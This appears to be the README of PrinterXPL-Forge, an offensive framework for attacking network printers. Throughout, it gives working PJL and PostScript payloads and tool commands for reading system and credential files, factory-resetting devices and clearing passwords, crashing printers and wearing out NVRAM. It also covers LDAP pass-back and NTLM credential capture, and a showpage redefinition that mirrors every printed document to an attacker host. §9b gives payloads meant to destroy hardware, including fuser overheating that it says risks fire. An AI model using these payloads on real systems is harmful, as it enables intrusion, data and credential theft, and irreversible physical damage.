


# Exploiting Network Printers via PrinterXPL-Forge

> *A comprehensive security research document covering printer attack vectors,  
> protocols, exploit techniques, and defences — 2002 to 2025.*

**Version:** 3.14.0 · **Author:** André Henrique ([@mrhenrike](https://github.com/mrhenrike)) | [União Geek](https://github.com/Uniao-Geek)  
**Tool:** [PrinterXPL-Forge](https://github.com/mrhenrike/PrinterXPL-Forge) · **License:** MIT  
**Based on:** Müller et al., *"Hacking Printers"* (BlackHat USA 2017) + extended 2018–2025 research

---

## Table of Contents

1. [Abstract](#1-abstract)
2. [Why Printers?](#2-why-printers)
3. [Yet Another T in the IoT?](#3-yet-another-t-in-the-iot)
4. [How to Print?](#4-how-to-print)
5. [What to Attack?](#5-what-to-attack)
6. [Printer Languages](#6-printer-languages)
7. [Network Protocols](#7-network-protocols)
8. [Attacker Models](#8-attacker-models)
9. [Four Attack Classes](#9-four-attack-classes)
10. [DoS Attacks](#10-dos-attacks)
11. [Protection Bypass](#11-protection-bypass)
12. [Print Job Manipulation](#12-print-job-manipulation)
13. [Information Disclosure](#13-information-disclosure)
14. [Network Attacks (Extended)](#14-network-attacks-extended)
15. [Windows Print Spooler Attacks](#15-windows-print-spooler-attacks)
16. [Updated Attack Matrix (2025)](#16-updated-attack-matrix-2025)
17. [PrinterXPL-Forge Architecture](#17-printerxpl-forge-architecture)
18. [PRET Architecture Reference](#18-pret-architecture-reference)
19. [Tool Comparison](#19-tool-comparison)
20. [Countermeasures](#20-countermeasures)
21. [References](#21-references)

---

## 1. Abstract

Network-connected printers remain one of the most consistently overlooked attack
surfaces in enterprise environments. Despite widespread deployment — millions of
devices exposed directly on the internet (Shodan: `HP LaserJet` returns 700,000+
results) — printer security receives a fraction of the attention given to
endpoints and servers.

This document surveys the entire attack landscape for network printers: languages
(PJL, PostScript, PCL, ESC/P), transport protocols (RAW/9100, IPP/631, LPD/515,
SMB/445, HTTP/80), and attack classes (DoS, information disclosure, credential
theft, remote code execution, lateral movement). It then presents
**PrinterXPL-Forge**, a modular Python 3 framework that automates discovery,
fingerprinting, and exploitation of 93 modules against 10+ vendor families,
backed by a catalogue of 50+ CVEs spanning 2002–2025.

---

## 2. Why Printers?

| Property | Impact |
|---|---|
| **Always-on** | Printers run 24/7, rarely rebooted or patched |
| **No endpoint security** | No AV, no EDR, no application whitelist |
| **Turing-complete languages** | PostScript is a full programming language; PJL provides OS-level access |
| **Trusted network position** | Printers sit inside the firewall on the corporate LAN |
| **Rich data store** | Address books, stored jobs, LDAP credentials, SMB shares |
| **IoT scale** | 700,000+ HP LaserJets on Shodan; millions of Brother/Ricoh/Kyocera units |
| **Overlooked in assessments** | Pentests rarely include printers in scope |

```
Shodan dork examples:
  HP LaserJet           → 700,000+ results
  "Ricoh Aficio"        → 120,000+
  "Brother MFC"         → 200,000+
  port:9100 "PJL"       → raw JetDirect exposed
  port:631 "CUPS"       → IPP servers exposed
```

With PrinterXPL-Forge:
```bash
python printerxpl-forge.py --shodan --dork "HP LaserJet" --country US
python printerxpl-forge.py --censys --dork "Ricoh Aficio" --city "New York"
```

---

## 3. Yet Another T in the IoT?

Modern network printers are full-fledged embedded computers:

- **CPU:** ARM Cortex-A or MIPS, 500 MHz–1 GHz
- **OS:** Embedded Linux, VxWorks, or proprietary RTOS
- **Memory:** 128 MB–2 GB RAM, 256 MB–4 GB NAND flash
- **Stack:** Full TCP/IP, HTTP/HTTPS web server, SNMP agent, SMB client, FTP server, LDAP client
- **Languages:** PostScript interpreter (Ghostscript-derived or proprietary), PJL parser, PCL engine
- **Services exposed:** ports 80, 443, 9100, 631, 161 (UDP), 515, 445, 21, 23

The attack surface is equivalent to a low-power Linux server with no security tooling.

---

## 4. How to Print?

### Channels

| Channel | Protocol | Port | Notes |
|---|---|---|---|
| USB | USB CDC / Class | — | Physical access only |
| RAW / JetDirect | TCP | **9100** | No authentication, no encryption |
| IPP | HTTP/1.1 or HTTPS | **631** | TLS optional, rarely enforced |
| LPD | TCP | **515** | Legacy UNIX printing |
| SMB / WinPrint | SMB2/3 | **445** | Windows shared printers; PrintNightmare vector |
| HTTP Web UI | HTTP/HTTPS | **80 / 443** | Admin panel; default creds common |
| FTP | FTP | **21** | Firmware updates, file storage |
| Telnet | Telnet | **23** | Legacy management; default creds |
| WSD | HTTP/UDP | **3702** | Web Services for Devices; Windows auto-discovery |

### Languages

| Language | Capability | Risk |
|---|---|---|
| **PJL** | Job control, filesystem access, NVRAM R/W, config dump | **Critical** |
| **PostScript** | Full Turing-complete language, file I/O | **Critical** |
| **PCL** | Page layout, limited macros | Medium |
| **ESC/P** | Epson bitmap control | Low |
| **PDF** | Rendered by embedded Ghostscript | Medium |

---

## 5. What to Attack?

```mermaid
flowchart LR
  PrintingUnit --> PJL_Interpreter
  PrintingUnit --> PS_Interpreter
  PrintingUnit --> Further["Further&#40;PCL, PDF, ESC/P&#41;"]
  PJL_Interpreter & PS_Interpreter & Further --> USB
  PJL_Interpreter & PS_Interpreter & Further --> RAW["RAW :9100"]
  PJL_Interpreter & PS_Interpreter & Further --> IPP["IPP :631"]
  PJL_Interpreter & PS_Interpreter & Further --> LPD["LPD :515"]
  PJL_Interpreter & PS_Interpreter & Further --> SMB["SMB :445"]
  PJL_Interpreter & PS_Interpreter & Further --> WebUI["HTTP :80/:443"]
  PJL_Interpreter & PS_Interpreter & Further --> SNMP["SNMP :161"]
```



Every protocol channel is a potential attack vector. RAW/9100 is the highest-risk:
it accepts raw print data with no authentication whatsoever by default.

---

## 6. Printer Languages

### 6.1 PJL (Printer Job Language)

PJL is not merely a job separator — it is an OS-level control language:

```pjl
@PJL INFO ID                        ; fingerprint device
@PJL INFO STATUS                    ; get current state
@PJL FSDIRLIST NAME="0:\" ENTRY=1 COUNT=65535   ; list filesystem
@PJL FSDOWNLOAD FORMAT:BINARY SIZE=512 NAME="0:\etc\passwd"   ; read file
@PJL FSUPLOAD FORMAT:BINARY SIZE=1024 NAME="0:\evil.pjl"      ; write file
@PJL DEFAULT COPIES=9999            ; NVRAM pollution (DoS)
@PJL DMCMD ASCIIHEX="040006020501010301040105"  ; factory reset
@PJL SET SERVICEPASSWORD=           ; clear service password
```

PrinterXPL-Forge PJL commands:
```bash
python printerxpl-forge.py 192.168.1.100 pjl info id
python printerxpl-forge.py 192.168.1.100 pjl ls /
python printerxpl-forge.py 192.168.1.100 pjl get /etc/shadow
python printerxpl-forge.py 192.168.1.100 pjl nvram read all
```

### 6.2 PostScript

PostScript is a full Turing-complete programming language with file I/O:

```postscript
% Filesystem enumeration
/filenameforall { = } 0 (/*) exch filenameforall

% Read /etc/passwd
(%rom0%/etc/passwd) (r) file { dup read { } { pop exit } ifelse } loop

% Execute system command (some implementations)
(%pipe%id) (r) file

% DoS — infinite loop
{} loop

% Print to arbitrary socket
(192.168.1.10) 9999 (w) file (SECRET DATA) writestring
```

PrinterXPL-Forge PS commands:
```bash
python printerxpl-forge.py 192.168.1.100 ps ls /
python printerxpl-forge.py 192.168.1.100 ps get /etc/passwd
python printerxpl-forge.py 192.168.1.100 ps put /var/evil.ps payload.ps
```

### 6.3 PCL (Printer Control Language)

PCL is less powerful but supports:
- Macro definitions and execution
- Memory dumps via `@PJL ENTER LANGUAGE=PCL`
- Binary data injection leading to buffer overflows on some parsers (CVE-2025-14235)

---

## 7. Network Protocols

### 7.1 RAW / JetDirect (port 9100)

Simplest and most dangerous: any data sent to port 9100 is interpreted as a print job with PJL header support.

```bash
# Manual probe
echo "@PJL INFO ID" | nc -q 5 192.168.1.100 9100

# PrinterXPL-Forge
python printerxpl-forge.py 192.168.1.100 --scan
python printerxpl-forge.py 192.168.1.100 pjl info id
```

### 7.2 IPP (Internet Printing Protocol, port 631)

IPP is HTTP-based (RFC 2911). The `CUPS/IPP RCE chain` (CVE-2024-47176 + CVE-2024-47076 + CVE-2024-47175 + CVE-2024-47177) demonstrates full unauthenticated RCE via a malicious IPP server.

```bash
python printerxpl-forge.py 192.168.1.100 ipp info
python printerxpl-forge.py 192.168.1.100 ipp send-file payload.ps
```

### 7.3 LPD (Line Printer Daemon, port 515)

RFC 1179 protocol with no authentication. Supports job cancellation and queue manipulation.

### 7.4 SNMP (port 161 UDP)

Printers expose extensive MIB subtrees:
```
enterprises.hp.productInfo.serialNumber
enterprises.lexmark.config.networkInfo.adminPassword
```

```bash
snmpwalk -v1 -c public 192.168.1.100
python printerxpl-forge.py 192.168.1.100 --snmp-dump
```

### 7.5 SMB (port 445)

Windows spooler (port 445) is exploited by PrintNightmare (§15). Additionally, printers configured to scan-to-SMB expose NTLM credential capture opportunities (§11.2).

---

## 8. Attacker Models

### 8.1 Physical Attacker

```mermaid
flowchart LR
  Attacker["Attacker\n(physical)"] -- USB --> Printer
  Attacker -- Panel -- > Printer
  Printer -- "Print job\nstored" --> Attacker
```

Capabilities: USB data injection, panel access, stored job retrieval.

### 8.2 Network Attacker



This is the primary model for PrinterXPL-Forge. The attacker is on the same LAN
(or reached via SSRF) and can send PJL/PS/PCL directly over port 9100.

### 8.3 Web / Browser Attacker (Cross-Site Printing)



The BeEF-derived `research-xsp-beef` module generates an HTML lure page that:
1. Scans LAN via CORS XHR (BeEF `cross_origin_scanner_cors` technique)
2. Discovers printers on ports 9100/631
3. POSTs a PostScript job to the printer

```bash
python printerxpl-forge.py 192.168.1.100 xsp generate --output /tmp/lure.html
```

---

## 9. Four Attack Classes

Following Müller et al. (BlackHat 2017), printer attacks fall into four classes:

| # | Class | Examples | Reversible? |
|---|---|---|---|
| 1 | **Denial of Service** | PS `{} loop`, NVRAM exhaustion, permanent crash | Often no |
| 2 | **Protection Bypass** | Factory reset via PJL DMCMD, service password clear | Yes |
| 3 | **Print Job Manipulation** | Capture, replay, modify, re-print jobs | Contextual |
| 4 | **Information Disclosure** | Filesystem dump, SNMP MIB, address book, stored jobs | N/A |

A fifth class — not defined in the 2017 paper but implemented in PrinterXPL-Forge — is **Physical Destruction**:

| # | Class | Examples | Reversible? |
|---|---|---|---|
| 5 | **Physical Destruction** | Fuser thermal runaway, motor jamming, laser diode burnout | **Never** |

---

## 9b. Irreversible / Physical Damage Attacks

> **Legal and Ethical Warning:** All attacks in this section cause permanent, irreversible hardware damage. They are documented here for defensive awareness and authorized security research only. Operators must have explicit written authorization before use.

### 9b.1 Fuser Thermal Runaway

**Mechanism:** The fuser unit bonds toner to paper by applying heat (170–210°C) via a ceramic heating element and a thermistor feedback loop. PJL and PostScript expose temperature override commands that bypass the firmware's safety setpoints:

```
# HP LaserJet — PJL
@PJL SET FUSETEMP=270
@PJL DEFAULT FUSETEMP=270

# Ricoh / Xerox / Canon — PostScript
<< /FuserTemperature 270 >> setpagedevice
<< /WaitTimeout 9999 >> setpagedevice

# Kyocera — service mode
@PJL SET SERVICEMODE=1
@PJL SET FUSER TEMPERATURE=270
```

**Damage timeline:**
- **>240°C** — PTFE fuser sleeve begins to deform; silicone roller surface degrades
- **>270°C** — Sleeve melts; heating element overstress; thermal fuse may trip
- **>285°C** — Paper residue inside the fuser assembly ignites; fire risk
- **Outcome** — Fuser unit replacement required ($50–$800). If thermal fuse blows, the printer is bricked without parts.

**Affected models (tested):** HP LaserJet 4200, Kyocera FS-4100DN, Ricoh Aficio MP 2510

**PrinterXPL-Forge module:** `research-fuser-thermal-attack`

---

### 9b.2 Motor Jamming / Mechanical Destruction

**Mechanism:** Laser printers use multiple stepper/DC motors for paper pick-up, main drive, exit, and duplex. HP's PML DMCMD interface (documented in service manuals) enables direct motor activation commands:

```
# HP PML — main motor + pickup solenoid + exit motor simultaneously
@PJL DMCMD ASCIIHEX="040006020501"  # main motor ON
@PJL DMCMD ASCIIHEX="040006020503"  # pickup solenoid
@PJL DMCMD ASCIIHEX="040006020504"  # exit motor
```

Running mechanically exclusive motors simultaneously (without paper sensor feedback) causes the drive train gears to bind and strip. Rapid duplex/paper-size cycling also stresses clutches and solenoid mechanisms.

**Damage:** Stripped plastic gears in the paper path; burned stepper motor windings; broken clutch assemblies. **No firmware update can repair mechanical damage.**

**Affected models:** HP LaserJet 4200/4300/P4015, Ricoh SP series

**PrinterXPL-Forge module:** `research-motor-jam-attack`

---

### 9b.3 Laser Scanner / Photosensitive Drum Degradation

**Mechanism:** PostScript `setscreen` and `setcolorscreen` operators control the halftone screen frequency (dots per inch per channel). Normal values are 60–150 lpi; the attack pushes them to 9,999 lpi, forcing the laser diode to fire at 100% duty cycle:

```postscript
%!PS
<< /HWResolution [9600 9600] >> setpagedevice
{ 1 } bind 9999 0 setscreen   % 9999 lpi mono
0 setgray
clippath fill
showpage
```

For color printers, `setcolorscreen` floods all four CMYK laser channels simultaneously:

```postscript
{ 1 } bind dup dup dup
9999 0 9999 0 9999 0 9999 0 setcolorscreen
0 0 0 1 setcmykcolor
clippath fill
showpage
```

HP's PML DMCMD can also directly override the laser power AGC (Automatic Gain Control):
```
@PJL DMCMD ASCIIHEX="0500010C020500FF"  # laser 1 power = 255 (max)
```

**Damage:** Accelerated laser diode degradation (weeks of stress in minutes); polygon mirror motor bearing failure; photosensitive drum coating ablation causing permanent print quality degradation.

**Affected models:** Any PostScript-capable laser printer; HP LaserJet for PML attack

**PrinterXPL-Forge module:** `research-laser-scanner-attack`

---

### 9b.4 NVRAM Exhaustion (Wear-Out Attack)

*Documented in BlackHat 2017. Confirmed on ~20 models.*

PJL `DEFAULT` commands write to non-volatile RAM. NVRAM chips have a write endurance of ~100,000–200,000 cycles. Rapid looping of:

```
@PJL DEFAULT COPIES=1
```

or (Brother-specific):
```
@PJL DEFAULT COLLATE=ON
@PJL DEFAULT COLLATE=OFF
```

exhausts write cycles, rendering the NVRAM permanently unresponsive. The printer cannot save any persistent settings and typically enters a boot-failure state (brick).

**Modules:** `research-pjl-nvram-damage`, `research-brother-nvram`, `research-generic-pjl-nvram`

---

### 9b.5 Destructive Audit CLI Usage

```bash
# Step 1: Assess (no payloads sent — always safe)
python src/main.py TARGET_IP --destructive-audit

# Step 2: Select specific modules
python src/main.py TARGET_IP --destructive-audit \
  --destructive-modules research-fuser-thermal-attack,research-motor-jam-attack

# Step 3: Live execution (AUTHORIZED LAB ONLY — IRREVERSIBLE)
python src/main.py TARGET_IP --destructive-audit --no-dry

# Interactive menu: launch python src/main.py → option [D]
```

Each module outputs:
1. Port connectivity check
2. Vulnerability probe (PJL INFO, PS capabilities)
3. Evidence: current fuser temp / motor state / laser settings
4. Summary: vulnerable / not_vulnerable
5. If `--no-dry`: sends payload and reports hardware response


Extended 2022–2025 classes:
| # | Class | Examples |
|---|---|---|
| 5 | **Credential Harvesting** | LDAP pass-back, SMTP pass-back, NTLM coercion via MS-RPRN |
| 6 | **Remote Code Execution** | CUPS/IPP chain, Lexmark SSRF→RCE, Xerox cmd injection |
| 7 | **Firmware Attacks** | DLM injection, downgrade, rootkit persistence |
| 8 | **Lateral Movement** | SSRF via IPP, WSD pivot, printed NTLM hashes |

---

## 10. DoS Attacks

### 10.1 PostScript Infinite Loop

```postscript
%!PS
{} loop
```

Sends the printer into an infinite loop. The only recovery is a physical power cycle.  
PrinterXPL-Forge module: `xpl/research/research-ps-infinite-loop`

```bash
python printerxpl-forge.py 192.168.1.100 --exploit research-ps-infinite-loop --check
```

### 10.2 NVRAM Exhaustion (PJL)

```pjl
@PJL DEFAULT COPIES=1000
@PJL DEFAULT MEDIASIZE=A4
@PJL DEFAULT MEDIATYPE=PLAIN
[...repeated 10,000 times...]
```

Writing excessive values to NVRAM causes permanent hardware failure on some models.  
CVE: CVE-2024-51982 (Brother HL-L2315DW), CVE-2014-3741 (generic).  
PrinterXPL-Forge module: `xpl/research/research-brother-nvram`

### 10.3 Paper Jam Trigger

```pjl
@PJL DEFAULT TRAYSWITCH=ON
@PJL DEFAULT COPIES=32767
@PJL EXECUTE PAUSE
```

Forces mechanical stress on the paper-feed mechanism.

---

## 11. Protection Bypass

### 11.1 Factory Reset via PJL DMCMD

```pjl
@PJL DMCMD ASCIIHEX="040006020501010301040105"
```

Resets all settings including any configured access password — bypasses all printer-level protection.

### 11.2 LDAP Pass-Back Attack

Printers configured to perform LDAP authentication send bind requests to an attacker-controlled server:

```
Attacker runs: nc -lvp 389  (or Mirage rogue LDAP server)
Printer triggers LDAP bind → sends PLAINTEXT credentials
```

PrinterXPL-Forge modules:
- `xpl/research/research-ldap-hash-capture` — trigger + capture
- `xpl/research/research-mirage-rogue-ldap` — Docker rogue LDAP server

Affected vendors: HP, Ricoh, Xerox, Konica Minolta, Brother, Sharp, Canon, Kyocera, Lexmark.

### 11.3 SNMP Factory Reset

```bash
snmpset -v1 -c public 192.168.1.100 \
  enterprises.hp.nm.oidCommonConfig.configResetFactory.0 i 1
```

Available on HP JetDirect and compatible devices.

### 11.4 Service Password Bypass (PJL)

```pjl
@PJL SET SERVICEPASSWORD=
```

Clears the service password on HP devices that use the PJL service mode.

---

## 12. Print Job Manipulation

### 12.1 Capture and Re-Print

Passive capture of LPD/RAW jobs:
```bash
sudo tcpdump -i eth0 -w printer.pcap port 9100 or port 515
# Extract PJL/PS data from pcap
python printerxpl-forge.py --pcap-extract printer.pcap
```

### 12.2 PostScript Showpage Redefinition

```postscript
%!PS
/showpage {
  % Redirect to attacker's server
  (192.168.1.10) 9999 (w) file exch writestring
  showpage
} def
```

Any document printed after this definition is mirrored to the attacker's host.

### 12.3 Stored Job Retrieval

Many MFPs store print jobs in internal memory or NAND flash:

```bash
python printerxpl-forge.py 192.168.1.100 pjl ls /
python printerxpl-forge.py 192.168.1.100 ftp ls
python printerxpl-forge.py 192.168.1.100 http get /hp/device/Jobs
```

---

## 13. Information Disclosure

### 13.1 PJL Filesystem Enumeration

```pjl
@PJL FSDIRLIST NAME="0:\" ENTRY=1 COUNT=65535
```

Exposes the entire printer filesystem. Common interesting paths:
- `0:\etc\shadow` — password hashes (Linux-based)
- `0:\var\spool\` — print job spool
- `0:\webServer\default\device.html` — device configuration page
- `0:\java.login.config` — Java login configuration
- `0:\config.soe.xml` — HP configuration export

### 13.2 PostScript File Enumeration

```postscript
(/*) { = } 128 string filenameforall
(%rom0%/etc/passwd) (r) file { dup read {=} {pop exit} ifelse } loop
```

### 13.3 SNMP MIB Dump

The printer SNMP MIB contains:
- Device serial number and model
- Firmware version
- Network configuration
- Administrator contact / email (CVE-2024-51977: Brother serial number disclosure)

```bash
python printerxpl-forge.py 192.168.1.100 --snmp-dump
snmpwalk -v2c -c public 192.168.1.100 | grep -i -E "admin|pass|serial"
```

### 13.4 Address Book / Email Extraction

MFP scan-to-email configurations contain SMTP/LDAP credentials:
```bash
python printerxpl-forge.py 192.168.1.100 --exploit research-ricoh-ldap-passback
python printerxpl-forge.py 192.168.1.100 --exploit research-konica-soap-extract
python printerxpl-forge.py 192.168.1.100 --exploit research-canon-ldif-extract
```

---

## 14. Network Attacks (Extended)

### 14.1 SSRF via IPP (Internet Printing Protocol)

```http
POST / HTTP/1.1
Host: 192.168.1.100:631
Content-Type: application/ipp

[IPP request containing attacker-controlled printer-uri]
printer-uri: ipp://internal-server:631/ipp/print
```

The printer acts as an SSRF proxy reaching internal services not accessible from outside.

### 14.2 CUPS/IPP RCE Chain (2024)

**CVE-2024-47176** + **CVE-2024-47076** + **CVE-2024-47175** + **CVE-2024-47177**

Full unauthenticated RCE on systems running `cups-browsed`:
1. Attacker sends UDP packet to `cups-browsed` port 631
2. `cups-browsed` connects to attacker's IPP server
3. Attacker returns malicious `cups-filters` attributes
4. When victim prints, command injection executes as `lp` user

```bash
python printerxpl-forge.py 192.168.1.100 --exploit msf-cups-rce-2024
```

### 14.3 CORS / Cross-Site Printing (BeEF XSP)

Derived from BeEF's `cross_origin_scanner_cors` and `port_scanner` modules:
1. Victim browser loads attacker's webpage
2. JavaScript scans LAN via CORS XHR for port 9100/631
3. Found printers receive PostScript print job

```bash
python printerxpl-forge.py 192.168.1.100 xsp generate --output /var/www/html/lure.html
```

### 14.4 WSD (Web Services for Devices) Pivot

WSD announcements on UDP/3702 reveal printer IPs and capabilities without authentication. PrinterXPL-Forge uses WSD for passive discovery:
```bash
python printerxpl-forge.py --wsd-discover
```

### 14.5 NTLM Coercion via MS-RPRN / SpoolSS

Printers that act as Windows print servers expose the MS-RPRN interface:
```bash
python printerxpl-forge.py 192.168.1.100 --exploit research-ms-rprn-coerce
```
Forces the printer to authenticate to an attacker-controlled SMB server, capturing NTLMv2 hashes.

### 14.6 Rogue LDAP Server (Mirage-style)

```bash
docker run -d -p 389:389 --name rogue-ldap mrhenrike/mirage-rogue-ldap
python printerxpl-forge.py 192.168.1.100 --exploit research-mirage-rogue-ldap \
  --ldap-server 192.168.1.10
```

---

## 15. Windows Print Spooler Attacks

### 15.1 PrintNightmare (CVE-2021-1675 / CVE-2021-34527)

**Type:** RCE + LPE via Windows Print Spooler  
**CVSS:** 8.8 (RCE) / 7.8 (LPE)

```bash
python printerxpl-forge.py 192.168.1.100 --exploit msf-printnightmare
# Or target domain controller:
python printerxpl-forge.py dc.corp.local --exploit edb-print-nightmare-rce
```

An unauthenticated attacker (or any domain user) can install a malicious printer driver via `RpcAddPrinterDriverEx`, achieving SYSTEM-level code execution on the remote machine.

### 15.2 SpoolFool (CVE-2022-21999)

**Type:** Local Privilege Escalation via Print Spooler  
**CVSS:** 7.8

Exploits a race condition in Spooler's `CreateDirectory` call to obtain SYSTEM privileges from a low-privileged user account.

```bash
python printerxpl-forge.py localhost --exploit research-spoolfool
```

### 15.3 PrintDemon (CVE-2020-1048)

**Type:** LPE via Windows Print Spooler port definition  
**CVSS:** 7.8

Abuses the Print Spooler's ability to define "ports" pointing to arbitrary file paths, leading to SYSTEM-level file writes.

### 15.4 Other Spooler CVEs

| CVE | Year | Type | CVSS |
|---|---|---|---|
| CVE-2021-36958 | 2021 | RCE (remote, auth not required in some configs) | 7.3 |
| CVE-2022-30206 | 2022 | LPE via Spooler race condition | 7.8 |
| CVE-2022-38028 | 2022 | LPE, used by Forest Blizzard (APT28) | 7.8 |
| CVE-2023-21678 | 2023 | LPE via Spooler | 7.8 |

---

## 16. Updated Attack Matrix (2025)

The following table extends the original Müller et al. 20-printer attack matrix with 2022–2025 entries. `✓` = confirmed vulnerable, `~` = partial / version-dependent, `✗` = not affected.

| Vendor / Model | DoS (PS/PJL) | Factory Reset | Job Capture | FS Enum | Cred Harvest | CUPS/IPP RCE | LDAP Pass-Back | Win Spooler | Firmware Attack | SSRF/Pivot |
|---|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|
| **HP LaserJet** (all) | ✓ | ✓ | ✓ | ✓ | ✓ | ~ | ✓ | ✓ | ✓ | ✓ |
| **HP OfficeJet** | ✓ | ✓ | ~ | ~ | ✓ | ~ | ✓ | ✓ | ~ | ~ |
| **HP JetDirect** (legacy) | ✓ | ✓ | ✓ | ✓ | ✓ | ✗ | ~ | ✗ | ✗ | ~ |
| **Xerox WorkCentre** | ✓ | ~ | ✓ | ✓ | ✓ | ✗ | ✓ | ~ | ✓ | ✓ |
| **Xerox VersaLink** | ✓ | ~ | ✓ | ✓ | ✓ | ✗ | ✓ | ✗ | ✓ | ✓ |
| **Ricoh Aficio/MP** | ✓ | ~ | ✓ | ✓ | ✓ | ✗ | ✓ | ~ | ~ | ~ |
| **Canon iR-ADV** | ✓ | ✓ | ✓ | ✓ | ✓ | ✗ | ✓ | ~ | ✓ | ~ |
| **Konica Minolta bizhub** | ✓ | ~ | ✓ | ✓ | ✓ | ✗ | ✓ | ~ | ~ | ✓ |
| **Brother MFC/DCP/HL** | ✓ | ~ | ~ | ~ | ✓ | ✗ | ~ | ✓ | ✗ | ✗ |
| **Kyocera ECOSYS** | ✓ | ~ | ~ | ~ | ~ | ✗ | ~ | ~ | ✗ | ✗ |
| **Sharp MX** | ✓ | ✗ | ~ | ~ | ✓ | ✗ | ✓ | ✗ | ✗ | ✗ |
| **Lexmark (older)** | ✓ | ✓ | ✓ | ✓ | ✓ | ✗ | ~ | ~ | ✓ | ✓ |
| **Lexmark (2023)** | ✓ | ~ | ~ | ~ | ✓ | ✗ | ~ | ✗ | ✓ | ✓ |
| **Samsung** | ✓ | ~ | ~ | ~ | ~ | ✗ | ✗ | ~ | ✗ | ✗ |
| **Epson** | ~ | ✗ | ~ | ✗ | ~ | ✗ | ✗ | ~ | ✗ | ✗ |
| **OKI** | ✓ | ~ | ~ | ~ | ~ | ✗ | ✗ | ~ | ✗ | ✗ |
| **Toshiba e-STUDIO** | ✓ | ~ | ~ | ~ | ✓ | ✗ | ✓ | ~ | ✗ | ✗ |
| **Dell MFP** | ✓ | ~ | ✓ | ~ | ~ | ✗ | ✗ | ~ | ✗ | ✗ |
| **PaperCut NG/MF** | ~ | ✗ | ✓ | ✗ | ✓ | ✓ | ✓ | ✓ | ✗ | ✓ |
| **CUPS (Linux)** | ✓ | ✗ | ✓ | ✗ | ~ | ✓ | ✗ | ✗ | ✗ | ✓ |

### Notable 2022–2025 CVEs by Vendor

| CVE | Vendor | Year | Type | CVSS |
|---|---|---|---|---|
| CVE-2024-6333 | Xerox VersaLink | 2024 | Command Injection RCE | 7.2 |
| CVE-2024-47176 | CUPS/IPP | 2024 | RCE chain (unauthenticated) | 9.9 |
| CVE-2024-51977 | Brother | 2024 | Serial number disclosure | 5.3 |
| CVE-2024-51978 | Brother | 2024 | Default password derivation from serial | 7.5 |
| CVE-2025-26506 | HP | 2025 | XPS buffer overflow RCE | 8.8 |
| CVE-2025-14232 | Canon | 2025 | PostScript buffer overflow | 8.8 |
| CVE-2025-14235 | Canon | 2025 | PCL buffer overflow | 8.8 |
| CVE-2023-26067 | Lexmark | 2023 | SSRF → internal API RCE | 8.0 |
| CVE-2023-23560 | Lexmark | 2023 | SSRF arbitrary file write | 9.0 |
| CVE-2022-1026 | Kyocera | 2022 | SOAP credential dump | 7.5 |
| CVE-2022-21999 | Windows Spooler | 2022 | SpoolFool LPE | 7.8 |
| CVE-2021-1675 | Windows Spooler | 2021 | PrintNightmare RCE | 8.8 |
| CVE-2021-34527 | Windows Spooler | 2021 | PrintNightmare RCE (patch bypass) | 8.8 |
| CVE-2019-19363 | Ricoh | 2019 | Driver LPE | 7.8 |
| CVE-2018-5924 | HP (FAXPLOIT) | 2018 | Buffer overflow via fax | 9.8 |
| CVE-2018-5925 | HP (FAXPLOIT) | 2018 | Stack overflow via fax | 9.8 |

---

## 17. PrinterXPL-Forge Architecture

```mermaid
flowchart TD
  User --> CLI["printerxpl-forge.py&#10;CLI / TUI Menu"]
  CLI --> Core["core/&#10;Discovery · Capabilities · AttackOrchestrator"]
  CLI --> Mods["modules/&#10;PJL · PostScript · PCL · BruteForce · PrintJob"]
  CLI --> Proto["protocols/&#10;RAW · IPP · LPD · SMB · Firmware · SSRF"]
  CLI --> Utils["utils/&#10;VulnScanner · ExploitMgr · CVELoader · OnlineDiscovery"]
  Utils --> CVECatalog["src/data/cve_catalog.json&#10;50+ CVEs"]
  Utils --> XplIndex["xpl/index.json&#10;93 modules"]
  XplIndex --> EDB["xpl/edb-*/&#10;23 ExploitDB"]
  XplIndex --> MSF["xpl/msf-*/&#10;19 Metasploit"]
  XplIndex --> Research["xpl/research-*/&#10;51 Original"]
```



### Layer Description

| Layer | Components | Purpose |
|---|---|---|
| **CLI / TUI** | `printerxpl-forge.py`, `src/ui/` | User interface, menu, session |
| **Core** | `src/core/discovery.py`, `capabilities.py`, `attack_orchestrator.py` | Target scan, feature matrix, attack coordination |
| **Modules** | `src/modules/pjl.py`, `ps.py`, `pcl.py`, `brute_force.py` | Language-level attack primitives |
| **Protocols** | `src/protocols/raw.py`, `ipp.py`, `ldp.py`, `smb.py`, `firmware.py` | Transport adapters |
| **Utils** | `src/utils/banner_grabber.py`, `cve_loader.py`, `exploit_manager.py` | Supporting tools (fingerprint, CVE lookup) |
